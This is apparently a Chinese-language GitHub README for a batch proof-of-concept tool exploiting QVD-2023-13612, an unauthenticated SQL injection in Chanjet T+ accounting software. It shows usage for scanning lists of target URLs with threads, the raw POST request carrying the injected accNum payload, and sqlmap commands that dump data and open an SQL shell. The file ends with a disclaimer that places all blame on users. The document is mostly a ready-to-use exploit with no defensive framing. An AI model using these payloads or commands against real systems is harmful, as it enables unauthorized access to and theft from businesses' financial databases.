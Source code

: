 

## QVD-2023-13612 用友畅捷通T SQL注入 批量POC！

畅捷通T+SQL注入漏洞，未经身份认证的远程攻击者可在易受攻击系统上执行任意SQL语句，某些情况下攻击者利用该漏洞可在底层操作系统上执行shell命令。

### 影响范围

  畅捷通T+ 13.0

  畅捷通T+ 16.0

### Usage

```
usage: QVD-2023-13612_TPlus-SQLvuln.py [-h] [-u URL] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. http://127.0.0.1)
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

POC

```
 python '.\QVD-2023-13612_SQL Injection Vulnerability.py' -u http://host
```

![image-20230628001513660](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\4.png)

```
 python '.\QVD-2023-13612_SQL Injection Vulnerability.py' -f .\url.txt -t 5 -o 1.txt
```

![image-20230628003352114](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\5.png)

### 数据包

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 79

{"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": ""}
```

![](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\1.png)

### EXP

```
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch --sql-shell
```

sql.txt数据包

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 53

{"accNum": "3'", "functionTag": "SYS0104", "url": ""}
```

![image-20230627173340255](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\2.png)

![image-20230627225735364](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\3.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。

















